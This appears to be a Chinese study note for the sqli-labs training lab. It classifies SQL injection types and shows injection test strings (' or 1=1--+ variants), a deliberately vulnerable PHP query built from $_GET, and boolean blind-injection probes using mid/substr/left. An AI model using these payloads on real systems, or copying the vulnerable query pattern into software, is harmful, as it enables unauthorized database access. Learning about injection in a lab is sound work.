 
# sqli-labs
<hr>
## 1.注入的分类 ##


### 1.基于从服务器接收到的响应

+ 基于错误的 SQL 注入

+ 联合查询的类型

+ 堆查询注射

+ SQL 盲注

	+ 基于布尔 SQL 盲注

	+ 基于时间的 SQL 盲注

	+ 基于报错的 SQL 盲注


### 2.基于如何处理输入的 SQL 查询（数据类型） ###
+ 基于字符串
+ 数字或整数为基础的


### 3.基于程度和顺序的注入(哪里发生了影响) ###
★一阶注射

★二阶注射

一阶注射是指输入的注射语句对 WEB 直接产生了影响，出现了结果；

二阶注入类似存储型 XSS，是指输入提交的语句，无法直接对 WEB 应用程序产生影响，通过其它的辅助间
接的对 WEB 产生危害，这样的就被称为是二阶注入.
### 4.基于注入点的位置上的 ###
▲通过用户输入的表单域的注射。

▲通过 cookie 注射。

▲通过服务器变量注射。（基于头部信息的注射）



### 函数
1. 
`version()`  ——MySQL 版本
2. `user()`  ——数据库用户名
3. `database()`——数据库名
4. `@@datadir`——数据库路径
5. `@@version_compile_os`   ——操作系统版本



**<a src="https://www.cnblogs.com/lcamry/p/5715634.html">sql的三大函数</a>**


1. concat(str1,str2,...)——没有分隔符地连接字符串
2. concat_ws(separator,str1,str2,...)——含有分隔符地连接字符串
3. group_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据




#### 一般用于尝试的语句
Ps:--+可以用#替换，url 提交过程中 Url 编码后的#为%23

or 1=1--+

'or 1=1--+

"or 1=1--+

)or 1=1--+

')or 1=1--+

") or 1=1--+

"))or 1=1--+

一般的代码为：
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
此处考虑两个点，一个是闭合前面你的 ‘
另一个是处理后面的
‘
，一般采用两种思
路，闭合后面的引号或者注释掉，注释掉采用--+ 或者 #（%23）








<hr>




## 盲注 ##

+ 基于布尔 SQL 盲注
+ 基于时间的 SQL 盲注
+ 基于报错的 SQL 盲注


### 布尔 ###
三大函数

mid(),substr(),left()

#### mid() ####

mid(str,start,lengh)
start 开始的位置  （min start = 1)

lengh = 返回字段的数量

str = "asdfg"

mid(str,2,1)



mid(database(),1,1)>'a'
查看第一位的字符

mid(database(),2,1)>'a'
第二位


> MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处column_name参数可以为sql语句，可自行构造sql语句进行注入

### substr()

截取字符串
substr(str,2,1)


截取自字符串


### left() ###
Left()得到字符串左部指定个数的字符

Left ( string, n )        string为要截取的字符串，n为长度。

str,2  截取前两位


ord asc||